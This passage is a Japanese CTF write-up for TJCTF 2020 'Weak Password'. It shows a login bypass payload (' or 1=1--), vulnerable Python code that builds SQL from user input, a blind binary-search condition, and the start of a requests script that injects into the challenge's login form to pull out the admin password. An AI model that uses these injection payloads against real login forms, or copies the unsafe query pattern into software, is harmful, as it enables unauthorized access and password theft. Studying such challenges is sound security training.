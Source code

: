 ```txt
         1
(1 row)

$ cat /tmp/largeobject.txt
ABCDABCD
```
# writeup
## blind / identify admin's password (TJCTF 2020  Weak Password)
http://itsvipul.com/writeups/TJCTF_2020/Weak_Password.html  
- **entrypoint**  
ログインページがあって、`' or 1=1--`でログインできるが特にそのあとにFlagとかはない。`admin`のパスワードを特定すればFlagが出るって問題文に書いてある。  
pythonで以下のようなソースとなっている。  
```python
<!-- The following code might be helpful to look at: -->

<!--
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, password))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
-->
```
`(Select unicode(substr(password,1,1)) from userandpassword limit 1 offset 0) > 50`みたいなbinary searchのBlindで特定する。  
- **payload**  
```python
#! /usr/bin/python3
import requests
import string

def inject(cmd):
    url = "https://weak_password.tjctf.org/login"
    data = {"username":"admin' AND {} -- ".format(cmd),"password":"leetcode"}
    #print(data)
    r = requests.post(url,data=data)
    #print(r.text)
    valid = "Congratulations"
    if(valid in r.text):
        return True
    else:
        return False


col_1 = "username"
col_2 = "password"
db = "userandpassword"

user = "admin"

#cmd = "Select unicode(substr(password,1,1)) from {} limit 1 offset 0 > 0 ".format(db)
flag=""
```